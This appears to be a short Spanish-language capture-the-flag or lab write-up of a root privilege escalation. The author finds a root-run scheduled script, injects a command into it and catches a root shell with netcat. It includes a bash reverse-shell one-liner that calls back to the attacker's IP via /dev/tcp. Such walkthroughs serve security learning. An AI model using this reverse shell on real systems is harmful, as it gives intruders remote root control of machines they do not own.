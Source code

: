 vemos que hay un script que es ejecutado por root cada cierto tiempo en el sistema:

![image](../zimages/Pasted_image_20241013175908.png)

vamos a ver de que se trata:

![image](../zimages/Pasted_image_20241013175933.png)

Vamos a inyectarle un comando de forma que, al ejecutarse automáticamente, nos de una reverse shell como root, utilizaremos el siguiente comando:

```bash
bash -i >& /dev/tcp/(nuestra ip)/(puerto a elegir) 0>&1
```
Lo primero de todo, nos pondremos a la escucha con netcat y ejecutaremos el comando en la máquina víctima poniendo nuestra ip y el puerto que queramos:

![image](../zimages/Pasted_image_20241013180432.png)

Esperamos un rato y lo tenemos:

![image](../zimages/Pasted_image_20241013180514.png)



# ./ROOTED


